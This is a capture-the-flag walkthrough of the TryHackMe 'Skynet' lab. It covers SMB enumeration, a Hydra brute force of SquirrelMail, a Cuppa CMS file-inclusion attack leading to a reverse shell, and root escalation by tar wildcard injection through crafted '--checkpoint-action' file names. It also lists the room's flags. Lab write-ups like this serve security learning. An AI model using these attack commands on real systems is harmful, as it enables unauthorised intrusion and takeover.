# TryHackMe — Skynet Walkthrough

## Enumeration

Started with Nmap:
```bash
nmap -A 10.10.169.141
```



Found SMB on 445. Enumerated shares:
```bash
smbmap -H 10.10.169.141
```



Connected to anonymous share:
```bash
smbclient //10.10.169.141/anonymous -N
```



Found `attention.txt`:



And `log1.txt` with passwords:



Ran dirb and found `/squirrelmail`.

## Brute Forcing SquirrelMail

Used Hydra with the password list:
```bash
hydra -l milesdyson -P log1.txt 10.10.169.141 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect"
```





**Task 1:** `cyborg007haloterminator`


Email revealed SMB password:



Connected to Miles' SMB share and found `important.txt`:


**Task 2:** `/45kra24zxs28v3yd`

## Finding CupPA CMS



Ran dirb on the hidden directory:
```bash
dirb http://10.10.169.141/45kra24zxs28v3yd/ /usr/share/wordlists/dirb/common.txt
```



Found CupPA CMS:


Searched exploits:
```bash
searchsploit cuppa
```



**Task 3:** Remote File Inclusion

## Exploitation

Tested LFI:
```
http://10.10.237.236/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```



Started HTTP server:
```bash
python3 -m http.server 8000
```


Set up listener:
```bash
nc -lvnp 1234
```



Triggered RFI and got shell. Found user flag in `/home/milesdyson/user.txt`.

**Task 4:** `7ce5c2109a40f958099283600a9ae807`

## Privilege Escalation

Checked crontab:
```bash
cat /etc/crontab
```


Backup script uses tar with wildcards. Exploited with checkpoint injection:
```bash
cd /var/www/html
printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > "--checkpoint=1"
```

After cron ran, got root with `/bin/bash -p`.

**Task 5:** `3f0372db24753accc7179a282cd6a949`
